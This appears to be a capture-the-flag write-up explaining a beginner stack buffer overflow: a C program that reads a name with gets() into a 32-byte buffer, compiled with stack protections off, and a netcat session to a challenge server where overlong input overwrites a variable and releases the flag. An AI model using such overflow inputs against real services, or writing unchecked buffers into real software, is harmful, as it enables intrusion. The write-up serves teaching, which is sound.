 Notice that the program will read the flag from a file if we somehow manage to break from the `while(1)` loop.

We also notice that if `x!=0`, the code will the "infinite" loop:

```C
int main() {
    while(1) {
        int x = 0;
        char name[32]="";
        printf("What's your name? ");

        // ...
        
        gets(name);    

        if(x) {
            break; // EXIT the
        } 

        // ...
    }

    // read flag from file
    // ...
    
    return 0;
}
```

But how can we set x to something different from 0 **in a compiled program**?

When we compile this using `gcc main.c -o main -std=c99 -fno-stack-protector -z execstack -no-pie`, we actually get a hint:

```bash
main.c: In function ‘main’:
main.c:13:9: warning: ‘gets’ is deprecated [-Wdeprecated-declarations]
   13 |         gets(name);
      |         ^~~~
In file included from main.c:4:
/usr/include/stdio.h:667:14: note: declared here
  667 | extern char *gets (char *__s) __wur __attribute_deprecated__;
      |              ^~~~
/usr/bin/ld: /tmp/ccs4hMd1.o: in function `main':
main.c:(.text+0x5e): warning: the `gets' function is dangerous and should not be used.
```

So the `gets()` function is considered dangerous. What does that mean?

If we search the internet, we find out that `gets` is unsafe since it doesn't check the input length when saving it to a buffer. In other words, it can copy, say, a 100 character long string in a 32 bytes array (100 and 32 are arbitrary number, anything similar proves the point). This is also known as a **Buffer Overflow**, since the remaining `100-32=68 bytes` override other variables in our program's memory, including `x`.

So, if we provide a string long enough to override x (but short enough to not override other important variables that will crash the program), we'll successfully retrieve the flag:

```bash
vianuhack@computer:~$ nc 164.92.224.165 1337
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Congrats! You bypassed it!
Here's your flag: VianuCTF{PWN3D_TH1S_INTRO_B0F!}

vianuhack@computer:~$ 
```

This is why it's always important to address out-of-bounds array issues (signal 11) when coding in C/C++. While `gets()` is deprecated, there are many other places where issues like this can arise. 
